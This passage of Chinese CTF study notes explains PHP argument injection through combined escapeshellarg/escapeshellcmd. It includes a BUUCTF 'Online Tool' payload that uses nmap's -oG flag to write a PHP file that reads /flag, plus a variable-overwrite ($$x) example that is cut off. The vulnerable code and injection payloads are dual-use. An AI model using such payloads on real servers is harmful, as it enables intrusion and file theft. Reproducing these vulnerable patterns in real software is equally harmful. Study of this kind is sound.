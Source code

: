 结果：
```
string(2) "ls"
string(4) "ls\;"
string(8) "\'\;ls\;"
```


### 对于 arg + cmd 的参数注入

测试：
```php
<?php  
	$str1 = "zj' -l ";
	system(escapeshellcmd("ls --ignore=".escapeshellarg($str1)." /tmp"));  
	echo escapeshellcmd("ls --ignore=".escapeshellarg($str1)." /tmp");  
?>
```
- ignore 参数需要 linux 环境

结果：
![](../../../../img/Pasted%20image%2020241008025618.png)
- `ls --ignore='zj'\\'' -l \' /tmp` 可化简 `ls --ignore=zj\ -l ' /tmp`

当用户输入包含单引号时，先用 escapeshellarg() 处理会给该单引号添加转义符，再用 escapeshellcmd() 处理时会将该添加的转义符再添加一个转义符，从而导致注入内容可以从==shellarg的单引号中逃逸掉==，造成后续可以进一步利用的参数注入漏洞。
- 如果是先用escapeshellcmd()函数过滤，再用escapeshellarg()函数过滤，则不存在参数注入漏洞



#### 实战： BUUCTF 2018---Online Tool

```php
<?php
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
?>
```

payload：
```
?host=2.2.2.2'<?php echo `cat /flag`;?> -oG test.php'
```
- -oG 是 nmap 的参数，表示写入前一个参数的内容到后一个参数所指明的文件中

---
## 变量覆盖

#### 例题

```php
<?php

include 'flag.php';
$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

```